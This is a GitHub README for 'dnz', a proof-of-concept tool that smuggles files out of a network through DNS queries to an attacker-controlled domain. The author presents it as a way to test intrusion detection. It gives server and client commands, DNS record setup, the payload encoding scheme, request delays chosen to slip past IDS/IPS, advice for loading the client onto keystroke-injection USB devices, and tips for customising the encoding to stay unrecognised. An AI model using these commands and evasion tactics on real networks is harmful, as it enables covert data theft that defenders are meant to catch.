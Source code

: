 # dnz

This should be the last tool to use, as it is slow, but if the only way to get the data out of the network is through DNS (if you can make connection over UDP 53 to external network, use anything else, which will be faster), then this tool is working. The only difference from the tools I have found and tested is introduction of delay between the calls.
*Why would you want that?*
Some IDS/IPS (Intrusion Detection System or Intrusion Prevention Systems) are monitoring frequency of DNS calls to unknown locations, therefore, introducing delay might help to be stealthier.

## How to use
If you know what you are about to do, you should understand that you need to have a control of DNS records and have publicly available server. At this point we will assume that you have that part already done (instructions at part: How to install and configure).
So the usage is simple, on the **"server"** you just need to run (after installing [scapy](https://scapy.net/) for your python):

*python server.py IPtoListenOn DomainName NetworkInterface*

*python server.py 192.168.0.1 my.domain.com eth0*


Reasons for requirements to provide IP and Network Interface: your server might have multiple, but we do not want to analyse the traffic we do not care about.


If you choose to use the python on the client, then you do not need any additional libraries, standard installation will handle everything and here is the whole beauty. Otherwise there are compiled binaries for Windows (x86), Linux (x86) and OS X (x64), the code which has been compiled is written in GoLang (no judgement here, I am still starting the Go, so trial and error here). Client is simple as well:

*python client.py fileName domain timeToSleep retriesIfNoDNSresponse fileNumberIfMultipleSent*

*python client.py test.txt my.domain.com 1 2 5*

* fileName - the file name of file you want to transfer
* domain - the domain which you are using (configured)
* timeToSleep - the delay in seconds for between DNS requests, default is 0, (1 in example) increasing the number will slow down the transfer
* retriesIfNoDNSresponse - by default we are expecting to receive DNS response (IP should be 127.0.0.1, additional thing with IPS/IDS they will not be able to check if after the DNS request you have tried a connection), default is set to 2
* fileNumberIfMultipleSent - in case you want to send multiple files, you can set the number of the file, default is set to 1 (5 in example), this is a single digit number!!!

## Limitations
With current design the limitations are the following:
* File should be less than ~240KB
* Up to 9 files can be transferred from machines with same local IP address (chances are low that you will be doing that from two different machines with same IP)
* No encryption, so your file is being transferred over the public network without encryption - you know it's a bad idea
* Not too difficult to run DOS against server after reading the code :)
* If someone is aware of the design, it is possible to corrupt the file in transfer

Probably there are more, but hey, it was PoC.

## How to install and configure
### Server
This is the hardest part, as you need to have server with python, root privileges (listen and respond port 53) and access to control DNS records. Let's start with DNS records.
* Create an A type record for your server, i.e. *m1ns.domain.com IN A x.x.x.x*
* Create NS type record for a short subdomain, i.e. *m.domain.com IN NS m1ns.domain.com*  (as you see your NS server must match the previously created A record, not a rocket science here)
You are done with the DNS records, but check with your provider how to properly set those.

On server Download the server.py from repo, install requirements and run:
* git clone https://github.com/zalt3es/dnz/
* pip install scapy (or pip install requirements.txt)
* python server.py x.x.x.x m.domain.com eth0

That's it, you have a running server.
### Client
Download and run either binary or python. In case you want to transfer less data you can use client2.py, it takes some time to read it, but it's just same code as client.py, just shorter variables, no comments, etc. - should fit even in any key injection USB (Rubber Ducky, etc. probably even in digispark with key injection). In regards to machine permissions, any user, as long as it has access to the file.

## Story behind
This might be boring for some, but interesting to others. I had a need to check how IDS work for DNS tunnelling and data exfiltration over DNS. Multiple publicly available tools has been identified by IDS and blocked, which is not fun in my understanding. Thinking of how IDS and IPS works I have tried to find DNS exfiltration tool which would allow me to use delay between requests, though nothing found in 5 minutes (I might have terrible searching skills :) ). Then I decided that it should not be too difficult to write something like that myself and [scapy](https://scapy.net/) was my tool to go, as python is easy and quick (at least for me).
After analysing how to trap and respond to DNS requests with [scapy](https://scapy.net/), I had another issue, what encoding should be used, it must contain only letters, numbers and hyphen, check [Wikipedia](https://en.wikipedia.org/wiki/Hostname), so BASE64 falls down, as it is case sensitive. Luckily, I don't have to invent the wheel, python has BASE32 encoding as default encoding type, which is not case sensitive, and even uses less characters than I need.
Another thing which was considered, what information I want to have and the way payload needs to organised, so came up with this payload structure:
hhhhhhhhAXXXXpppppppppp
* hhhhhhhh - IP of originating machine in hex to save space, could be even smaller
* A       - File number (in case you want to run multiple files from the machine - this would increase the noise)
* XXXX    - packet number, this is a numeric value, that's where the limitation for file size comes from, file must be sent in less than 10.000 requests
* pppppppp - the part of file, or filename if that is the first request

As expected, creating custom tool and introducing delays, got the file out without triggering alerts, though logic behind rules has been changed and analysis and correlation between other machines on the network helped a lot. Rules can be changed to identify the tools, but new tool is always hard to identify. Since such a simple tool was not identified during the test on quite isolated network, logic says that if you really need to use DNS, then take the server.py and create your own structure which would be beneficial for you (i.e. if you need to transfer only digits, then there is no reason to BASE32 encode, just encode to hex, or even better, create your own simple encoding utilising all alphabet characters and digits - 36 characters, so number up to 3656.1584.4006.2976 should fit in 10 characters).

Enjoy!

## Disclaimer

All the information on here is published in good faith and for general information purpose only. I do not make any warranties about the completeness, reliability and accuracy of this information. Any action you take upon the information (including code) you find in this repo, is strictly at your own risk. I will not be liable for any losses and/or damages in connection with the use of the tool, code, information, etc. on this repo. I am not responsible for misuse of tools and information, as well, this tool shoul not be used for illegal purposes.
